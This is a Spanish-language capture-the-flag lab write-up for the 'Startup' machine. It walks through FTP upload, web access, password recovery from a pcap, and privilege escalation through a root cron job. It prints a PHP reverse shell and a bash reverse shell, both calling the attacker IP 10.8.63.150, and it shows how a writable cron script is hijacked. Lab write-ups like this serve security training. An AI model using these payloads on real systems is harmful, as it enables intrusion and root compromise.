# Startup



notice.txt

```text
Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I dont know who it is, but Maya is looking pretty sus.
```

- Posible user -> **maya**

`steghide important.jpg`
no acepta el formato -> Vemos que con `file important.jpg` el archivo es png en realidad, usamos una herramienta para png
`zsteg important.jpg`



*Uwwwwwwwwwwww*
- Nada interesante parece

Vemos que con gobuster hay un directorio /10.10.227.112/files, donde se suben los archivos por ftp, intentaremos subir una revshell con `put`
- En el directorio normal de ftp no podemos



- En el directorio /ftp nos deja



El archivo shell tiene
`<?php exec('bash -c "bash -i >&/dev/tcp/10.8.63.150/4444 0>&1"'); ?>`
**www-data**

## Escalada

Directorio /recipe.txt

```text
Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was love.
```


En /incidents/suspicious.pcapng



LƨDDE4~@@\/5|@
EiNDDE4@@\/5@
DDE4@@\/5@
DE4@@\/5@
w.DE4@@\/5@
c4ntg3t3n0ughsp1c3
- PArece como un log de comandos de sistema pero encriptado, vemos que hay una cadena que se repite *c4ntg3t3n0ughsp1c3* y que parece que está comparandola para ver si la contraseña es correcta, ya que parece que el usuario sospechoso ha intentado acceder sin éxito intentandolo varias veces.

Intentamos usar esa contraseña para `sudo su` sin éxito
Vemos que existe otro usuario llamado *lennie*



Probamos para ese usuario
`su lennie` -> c4ntg3t3n0ughsp1c3
**lennie**

Documentos importantes en el escritorio de lennie





- planner.sh y startup_list.txt tienen permisos de root



- /etc/print.sh tiene de lennie



Vemos que tenemos permisos de escritura sobre /etc/print.sh con el user lennie
- escribiremos una revshell para que al ejecutarse el proceso con root
`/bin/bash -c 'bash -i >& /dev/tcp/10.8.63.150/1111 0>&1'
- Al minuto root ejecutará el proceso y enviará una shell a nuestro `nc -nlvp 1111`
**root**

¿Cómo sabemos que root ejecuta ese script cada minuto?
1. Nos descargamos pspy64 que sirve para ver procesos que corren temporalmente
2. En kali `git clone https://github.com/DominicBreuker/pspy.git`
3. En kali `python3 -m http.server`
4. En maquina vulnerada `wget -r http://10.8.63.150:8000/pspy`
- r : descarga recursivamente para obtener la carpeta, de lo contrario el servidor http por python descargara solo un file html con el contenido de la carpeta en plano
5. Ejecutar el pspy con `chmod +x pspy64` y `./pspy64`
6. Resultados



7. Cron está ejecutando con root (UID=0) cada minuto (08:38:01 y después 08:39:01) el proceso planner.sh

Root ejecutará /planner.sh que a su vez ejecuta /etc/print.sh, el cual ha sido modificado por nosotros para lanzar una shell a `nc -nvlp 1111` -> obtenemos una shell con permisos del user que ejecuta el proceso, es decir, root.
